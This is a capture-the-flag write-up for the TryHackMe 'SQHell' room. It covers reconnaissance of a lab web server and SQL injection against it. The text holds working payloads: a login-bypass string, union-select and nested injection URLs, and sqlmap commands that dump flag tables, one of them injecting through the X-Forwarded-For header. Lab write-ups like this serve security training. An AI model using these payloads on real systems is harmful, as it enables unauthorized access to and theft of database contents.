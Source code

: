 # SQHell

Link to the room: https://tryhackme.com/room/sqhell

## Let's go!

Setting IP variable

```
export IP=10.10.68.254
```

## Enumeration

### Nmap scan 

```
Port 22 is open
Port 80 is open
```

Nothing out of the ordinary; let's dig deeper.

```
nmap -p22,80 -sV -sC -Pn -T4 -oA 10.10.68.254 10.10.68.254
```

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The ssh isn't helpful without the credentials, so let's focus on the webserver for now. We'll run a gobuster scan while we visit the page.

### Gobuster 

```
/login                (Status: 200) [Size: 1763]
/post                 (Status: 200) [Size: 21]  
/register             (Status: 200) [Size: 2593]
/user                 (Status: 200) [Size: 21]  
```

## Visiting the webserver

![website](webserver_landing_page.PNG)

### Login page

![login page](login_page.PNG)

I tried the default credentials but to no avail. As the room revolves around SQL injection, let's fire up burp suite and send the request to the repeater to try some SQL injection for authorization bypass manually.

```
POST /login HTTP/1.1
Host: 10.10.68.254
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://10.10.68.254
Connection: close
Referer: http://10.10.68.254/login
Upgrade-Insecure-Requests: 1

username=admin'+or+'1'%3d'1&password=password
```

On the third try, we can bypass the login and get the flag (you'll see it in the response). Don't forget to URL encode the request!
You can find the list of the different commands here: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/.

### Posts page

Visiting /post, we're greeted with `Missing parameter: id`. This shows that the page requires an id parameter. Playing around with it we can see that we're able to mess around with the page and it is indeed vulnerable to sql injection!

```
http://10.10.68.254/post?id=-1%20union%20select%201,2,user(),4
```

![post](post_id_user.PNG)

Let's fire up sqlmap and beat it up. A good practice is to intercept the request using burp suite and then saving it. I saved the request as sqhell_post.request.

**Sqlmap for /post**

After several tries dumping the database and then tables, the final command is:

```
sqlmap -r sqhell_post.request --dbms mysql -D sqhell_5 -T flag --dump 
```

### Register page

This one is tricky; first, it won't let you register a new user. However, the fact that it takes in data leaves gives us some room to work in. Good thing our burp suite was running in the background, and we were able to identify the user-check parameter. 

```
http://10.10.68.254/register/user-check?username=a
```

Let's save the request as sqhell_register.request and can try sqlmap on this.

**Sqlmap for /register**

```
sqlmap -r sqhell_register.request --dbms mysql -D sqhell_3 -T flag --dump
```

### Terms and Conditions page

Before moving on to the users, let's take a look at the terms and conditions page, there we'll find a massive hint which states:

```
iii: We log your IP address for analytics purposes
```

This means that the site identifies the IP address of the user connecting to their web server through an HTTP header. X-Forwarded-For is an HTTP header field that is considered as a de facto standard for this purpose. For this, our sqlmap command will differ slightly as we'll be using the URL and header switch for this task.

**Sqlmap for /terms-and-conditions**

```
sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://10.10.68.254/ -D sqhell_1 -T flag --dump
```

### User login

This one, by far, was the most difficult one to came across. At first sight, it seems like any other SQL injection inside the `user?id=` parameter; however, after beating it up several times with sqlmap, I couldn't retrieve the flag. Good thing the ever so generous Mr Adam Langley gave us a following hint: *Well, dreams, they feel real while we're in them right?* 

Now, this is a quote from the movie inception. As any normal (arguable, but okay) pentester would do, we can google the term sql injection inception! This brings us to an article that refers to this notion of "inception" injection simply as Nested SQL injection. This gives us an idea of what to do next. Let's fire up burp and try Nested attack on the webserver.

Trying the following commands gives us an idea of where to start.

```
http://10.10.68.254/user?id=2 union all select 1,2,3 from users#
```

![user sql injection](sqhell_user_injection.PNG)

This shows that we were successfully able to overwrite the database. Let's nest another SQL injection inside it and try to retrieve the flag.

```
http://10.10.68.254/user?id=2 union all select "1 union select 1,flag,3,4 from flag-- -",1,2 from users#
```

![sql user flag](sql_user_flag_redacted.png)

Success, we were finally able to retrieve the flag!
